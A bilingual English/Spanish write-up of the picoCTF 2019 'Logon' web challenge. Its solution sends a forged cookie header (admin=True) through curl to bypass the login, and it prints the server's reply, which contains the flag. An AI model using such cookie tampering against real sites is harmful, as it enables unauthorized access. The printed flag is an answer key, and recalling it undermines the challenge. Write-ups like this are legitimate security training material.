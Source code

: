 ## Descripcion
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

La fábrica oculta cosas a todos sus usuarios. ¿Puedes iniciar sesión como Joe y encontrar lo que han estado mirando? `https://jupiter.challenges.picoctf.org/problem/13594/` ([enlace](https://jupiter.challenges.picoctf.org/problem/13594/)) o http://jupiter.challenges. picoctf.org:13594
### Pistas
1. Hmm it doesn't seem to check anyone's password, except for Joe's?
### Solución
1. Hay que encontrar y verificar la cookie a buscar, con curl en Linux:
```
hellbroone-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie:username=caca;password=tumama;admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>
```
### Notas Adicionales
Para este reto tuvimos que usar el comando curl, que es muy útil para verificar URLs y transferir archivos en **Linux**.
Con esto, simplemente hay que poner la cookie como encabezado con *-H*.
### Referencias
https://play.picoctf.org/practice/challenge/46
https://jupiter.challenges.picoctf.org/problem/13594/

